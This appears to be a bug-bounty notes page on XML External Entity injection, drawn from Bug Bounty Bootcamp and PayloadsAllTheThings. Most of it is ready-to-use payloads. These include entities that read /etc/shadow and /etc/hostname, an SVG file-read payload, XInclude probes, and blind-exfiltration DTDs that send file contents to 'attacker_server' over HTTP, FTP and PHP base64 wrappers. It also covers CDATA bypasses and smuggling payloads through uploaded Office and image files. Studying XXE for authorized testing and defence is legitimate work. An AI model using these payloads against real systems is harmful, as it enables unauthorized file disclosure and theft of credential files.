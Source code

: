 # XML External Entities injection
Tags: #xxe #injection #api
Related to: [[SAML]]
See also:
Previous:

## Links
Topic: XXE identification and exploit
Author: h3xstream
Link: https://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html

Book Title: Bug Bounty Bootcamp
Author: Vickie Li
Description: A lot of the payload material is taken from this book.

Topic: Various XXE payloads
Author: swisskeyrepo
Link: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

## Notes
### Detection
- Anything that looks XML based should be investigated (e.g. GPS in @h3xstream post)
- Change `application/json` to `application/xml` in API requests.

```
Content-Type: text/xml
Content-Type: application/xml
```

#### FIle Upload
 > If you can upload one of these file types, you might be able to smuggle XML input to the application’s XML parser. XML can be written into document and image formats like XML, HTML, DOCX, PPTX, XLSX, GPX, PDF, SVG, and RSS feeds. Furthermore, metadata embedded within images like GIF, PNG, and JPEG files are all based on XML.
 
 ### Payloads
- Rather than use `<example>`  below, replace with a typical tag the application is expecting. This will help prevent parsing errors.
 
 "Classic"
 ```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test SYSTEM "Hello!">
]>
<example>&test;</example>
```

When the SYSTEM keyword does not work, you can replace it with the PUBLIC keyword instead. This tag requires you to supply an ID surrounded by quotes after the PUBLIC keyword. The parser uses this to generate an alternate URL for the value of the entity. For our purposes, you can just use a random string in its place:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test PUBLIC "abc" "file:///etc/hostname">
]>
<example>&test;</example>
```

Other file protocols work beyond `file://`. `http://` can be used to do [[ssrf]], proxy requests, or scan the internal network. `php://` can be used to take advantage of PHP wrappers on servers running [[PHP]].

#### Blind
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test SYSTEM "http://attacker_server:80/xxe_test.txt">
]>
<example>&test;</example>
```

#### SVG
Save as a .svg file.
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY test SYSTEM "file:///etc/shadow">
]>
<svg width="500" height="500">
  <circle cx="50" cy="50" r="40" fill="blue" />
  <text font-size="16" x="0" y="16">&test;</text>
</svg>
```

#### Office files
You can unzip the following, identiy .xml files, and add payloads
* docx
* pptx
* xlsx
Then, zip again

#### Xinclude
Sometimes you cannot control the entire XML document or edit the DTD of an XML document. But you can still exploit an XXE vulnerability if the target application takes your user input and inserts it into XML documents on the backend.

In this situation, you might be able to execute an XInclude attack instead. _XInclude_ is a special XML feature that builds a separate XML document from a single XML tag named `xi:include`. If you can control even a single piece of unsanitized data passed into an XML document, you might be able to place an XInclude attack within that value.

To test for XInclude attacks, insert the following payload into the data entry point and see if the file that you requested gets sent back in the response body:

```
<example xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/hostname"/>
</example>
```

This piece of XML code does two things. First, it references the _http://www.w3.org/2001/XInclude_ namespace so that we can use the `xi:include` element. Next, it uses that element to parse and include the _/etc/hostname_ file in the XML document.

### Exfiltration
#### Blind
More complicated because of rules in most XML parsers

> An easier way to exfiltrate data via a blind XXE is by forcing the parser to return a descriptive error message. For example, you can induce a File Not Found error by referencing a nonexistent file as the value of an external entity. Your external DTD can be rewritten as follows:

*xxe.dtd*
```
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/?%file;'>">
%ent;
%error;
```

Notice that I included the contents of _/etc/shadow_ in the URL parameter of the nonexistent filepath. Then you can submit the same payload to the target to trigger the attack:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd">
  %xxe;
]>
```

This malicious DTD will cause the parser to deliver the desired file contents as a File Not Found error:
```
java.io.FileNotFoundException: file:///nonexistent/FILE CONTENTS OF /etc/shadow
```

#### Bypassing restrictions on special chars
Sometimes you’ll want to exfiltrate files that contain XML special characters, such as angle brackets (`<>`), quotes (`"` or `'`), and the ampersand (`&`). Accessing these files directly via an XXE would break the syntax of your DTD and interfere with the exfiltration. Thankfully, XML already has a feature that deals with this issue. In an XML file, characters wrapped within `CDATA` (character data) tags are not seen as special characters. So, for instance, if you’re exfiltrating an XML file, you can rewrite your malicious external DTD as follows:

```
1 <!ENTITY % file SYSTEM "file:///passwords.xml">
2 <!ENTITY % start "<![CDATA[">
3 <!ENTITY % end "]]>">
4 <!ENTITY % ent "<!ENTITY &#x25; exfiltrate
'http://attacker_server/?%start;%file;%end;'>">
%ent;
%exfiltrate;
```

This DTD first declares a parameter entity that points to the file you want to read 1. It also declares two parameter entities containing the strings `"<![CDATA["` and `"]]>"`2 3. Then it constructs an exfiltration URL that will not break the DTD’s syntax by wrapping the file’s contents in a `CDATA` tag 4. The concatenated `exfiltrate` entity declaration will become the following:

```
<!ENTITY % exfiltrate 'http://attacker_server/?<![CDATA[CONTENTS_OF_THE_FILE]]>'>
```

You can see that our payloads are quickly getting complicated. To prevent accidentally introducing syntax errors to the payload, you can use a tool such as XmlLint ([https://xmllint.com/](https://xmllint.com/)) to ensure that your XML syntax is valid.

Finally, send your usual XML payload to the target to execute the attack:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [
  <!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd">
  %xxe;
]>
```

Another way of exfiltrating files with special characters is to use a PHP URL wrapper. If the target is a PHP-based app, PHP wrappers let you convert the desired data into base64 format so you can use it to read XML files or even binary files:

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>">
%ent;
%exfiltrate;
```

The File Transfer Protocol (FTP) can also be used to send data directly while bypassing special character restrictions. HTTP has many special character restrictions and typically restricts the length of the URL. Using FTP instead is an easy way to bypass that. To use it, you need to run a simple FTP server on your machine and modify your malicious DTD accordingly. I used the simple Ruby server script at [https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb):

```
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM
1 'ftp://attacker_server:2121/?%file;'>">
%ent;
%exfiltrate;
```

We are using port 2121 here because the Ruby FTP server we are using runs on port 2121, but the correct port to use depends on how you run your server